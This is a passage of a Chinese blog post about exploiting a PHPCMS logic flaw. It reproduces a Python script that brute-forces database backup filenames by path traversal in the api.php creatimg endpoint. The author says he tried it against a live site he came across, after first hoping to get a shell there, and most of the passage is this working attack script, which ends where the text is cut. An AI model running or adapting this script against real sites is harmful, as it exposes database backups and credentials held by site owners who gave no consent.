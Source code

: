 ```yaml
---
title: PHPCMS SQL备份文件名爆破逻辑漏洞验证
date: 2019-05-06 17:10:17
tags: 实战经验
categories: 渗透测试
---
```

## PHPCMS SQL备份文件名爆破逻辑漏洞验证概述
&#160; &#160; &#160; &#160;昨天在翻网站的时候，看见一个网站CMS是phpcms的，以前有过前台getshell的经验，就准备直接前台getshell，但是后来发现不能够注册，没法了。但是这种搞了半天让我放弃又不想，所以就百度了一波phpcms的漏洞，然后再I春秋看见了一个帖子，这位作者大概整理了一下phpcms的漏洞，其中我看见了一个PHPCMS SQL备份文件名爆破的逻辑漏洞，就按部就班的去搞了，结果在这实际搞的过程中发现了问题。

## 问题一：脚本问题
&#160; &#160; &#160; &#160;先分享一下这位作者的源代码：
```
#!/usr/bin/env python
# coding=utf-8
'''/*
    * author = Mochazz
    * team   = 红日安全团队
    * env    = pyton3
    *
    */
'''
import requests
import itertools
characters = "abcdefghjklmnopqrstuvwxyz0123456789_!#"
backup_sql = ""
payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
url = "http://192.168.0.106"
flag = 0
for num in range(1,7):
    if flag:
        break
    for pre in itertools.permutations(characters,num):
        pre = ''.join(list(pre))
        payload = payload.format(location=pre)
        r = requests.get(url+payload)
        if r.status_code == 200 and "PNG" in r.text:
            flag = 1
            backup_sql = pre
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
print("[+] 前缀为：",backup_sql)
flag = 0
for i in range(30):
    if flag:
        break
    for ch in characters:
        if ch == characters[-1]:
            flag = 1
            break
        payload = payload.format(location=backup_sql+ch)
        r = requests.get(url + payload)
        if r.status_code == 200 and "PNG" in r.text:
            backup_sql += ch
            print("[+] ",backup_sql)
```
